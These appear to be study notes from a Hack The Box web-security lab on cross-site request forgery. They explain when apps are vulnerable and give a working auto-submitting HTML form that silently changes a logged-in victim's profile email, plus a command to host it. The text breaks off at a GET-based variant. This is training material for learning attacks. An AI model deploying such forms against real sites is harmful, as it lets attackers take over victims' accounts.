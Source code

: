 ## CSRF
#### A web application is vulnerable to CSRF attacks when:
- All the parameters required for the targeted request can be determined or guessed by the attacker
- The application's session management is solely based on HTTP cookies, which are automatically included in browser requests
#### To successfully exploit a CSRF vulnerability, we need:

- To craft a malicious web page that will issue a valid (cross-site) request impersonating the victim
- The victim to be logged into the application at the time when the malicious cross-site request is issued
#### Activate Burp Proxy and click "Save" on the web page you're authenticated to
![[CSRF - 1 form.png]]
*We notice no anti-CSRF token in the update-profile request. Let's try executing a CSRF attack against our account (Ela Stienen) that will change her profile details by simply visiting another website (while logged in to the target application).*
#### Create and serve the following HTML page
```html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

This was taken from the following page:
![[CSRF - 2.png]]
#### Serve the image on a python web server
```Shell
python3 -m http.server 1337
```
#### While logged in as the user, go to the web page at `http://<attacker ip>:1337/notmalicious.html`
![[CSRF - 3.png]]
## CSRF (GET-based)
#### Authenticate to the app and save the profile. You should see the following:
![[CSRF - 4.png]]
#### Activate burp suite's proxy (Intercept On) and click "Save" again.

